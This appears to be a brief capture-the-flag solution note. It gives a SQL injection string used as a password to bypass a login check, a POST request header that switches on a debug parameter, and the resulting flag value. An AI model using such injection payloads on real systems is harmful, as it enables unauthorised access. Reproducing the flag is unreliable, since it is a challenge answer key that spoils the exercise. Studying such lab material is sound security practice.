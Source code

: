 # Trick

Password injection:
```
" or "1" = "1" or "
```

Header:
```
POST /index.php?debug HTTP/1.1
```


# Flag

```
TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB
```